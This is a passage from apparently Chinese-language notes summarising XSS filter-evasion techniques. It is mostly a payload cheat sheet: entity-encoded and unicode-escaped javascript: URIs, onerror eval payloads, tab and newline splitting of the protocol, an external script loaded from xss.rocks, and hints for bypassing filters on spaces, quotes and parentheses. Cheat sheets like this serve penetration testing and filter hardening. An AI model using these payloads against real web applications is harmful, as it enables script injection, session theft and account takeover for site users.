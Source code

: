> > >
> > > ```html
> > > <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
> > > 
> > > #0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
> > > ```
> >
> > ==16进制编码==
> >
> > > `<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>`
> >
> > ==unicode==
> >
> > > `<img src="1" onerror=eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0075\u006e\u0069\u0063\u006f\u0064\u0065\u0027\u0029")></img>`
> >
> > ==内嵌tab 换行符 回车==
> >
> > > `<IMG SRC="jav&#x09;ascript:alert(‘XSS’);">`tab
> > >
> > > `<IMG SRC="jav&#x0A;ascript:alert(‘XSS’);">`换行
> > >
> > > `<IMG SRC="jav&#x0D;ascript:alert(‘XSS’);">`回车
> >
> > ==伪协议前加空格或者元字符==
> >
> > > `<IMG SRC=” &#14; javascript:alert(‘XSS’);”>`
> > >
> > > 实际情况是你可以插入任何十进制的1至32号字符：
> >
> > ==浏览器特性==
> >
> > > `<SCRIPT/XSS SRC=”http://xss.rocks/xss.js“></SCRIPT>`
> >
> > ==额外的尖括号==
> >
> > > `<<SCRIPT>alert(“XSS”);//<</SCRIPT>`
> >
> > ==空格被过滤==
> >
> > > ***用`/**/`或者`/`***
> >
> > ==单引号被过滤==
> >
> > > 反引号过滤
> >
> > ==括号被过滤==
> >
> > > ![image-20200606155040682](xss漏洞总结/image-20200606155040682.png)
> > >
> > > svg+html 实体编码
> > >
> > > 
